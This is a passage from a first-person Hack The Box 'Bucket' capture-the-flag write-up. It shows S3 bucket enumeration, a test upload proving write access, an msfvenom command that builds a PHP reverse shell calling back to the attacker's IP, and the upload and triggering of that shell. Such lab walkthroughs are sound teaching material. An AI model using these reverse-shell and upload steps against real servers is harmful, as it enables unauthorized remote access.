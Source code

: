 Awesome! I now had 3 sets of credentials, however I didn't have anywhere to use them just yet. I kept enumerating the web application and remembered that there was another bucket:

```bash
vagrant@ko:~/Desktop/HackTheBox/Time$ aws --endpoint-url http://s3.bucket.htb/ s3 ls
2021-03-05 07:22:03 adserver

vagrant@ko:~/Desktop/HackTheBox/Time$ aws --endpoint-url http://s3.bucket.htb/ s3 ls s3://adserver
                           PRE images/
2021-03-05 07:22:03       5344 index.html

```

Since I was able to read the directory, it was highly likely that I also had write permissions to the host. Going off of this assumption, I wanted to see if I was able to insert files onto the server, and I decided to upload a simple text file to test the theory:

```
vagrant@ko:~/Desktop/HackTheBox/Bucket$ aws --endpoint-url http://s3.bucket.htb/ s3 cp temp.txt s3://adserver/temp.txt
upload: ./temp.txt to s3://adserver/temp.txt
```

<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/Bucket/img7.png"  style="width: 80%" />
</p>

Now that I knew that I was able to upload a file to the server, I needed to determine a file type that would be able to provide me with a reverse shell to the host. I attempted to create a reverse shell using meterpreter:

```bash
msfvenom -p php/reverse_php LHOST=10.10.14.63 LPORT=1234 -f raw > shell.php
```

Once the file was created, I then uploaded it to the server:

```bash
aws --endpoint-url http://s3.bucket.htb/ s3 cp shell.php s3://adserver/
```

Browsing to the file location (<http://s3.bucket.htb/shell.php>), I saw that the file was uploaded, however it was not executed upon viewing the file -- instead it asked me to download it. Additionally, the file disappeared every few minutes. I did realise that the `index.html` file that was in the directory was related to the main `bucket.htb` web application, so I navigated to the main directory instead of the bucket sub directory and was able to activate the reverse shell.

<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/Bucket/img8.png"  style="width: 80%" />
</p>
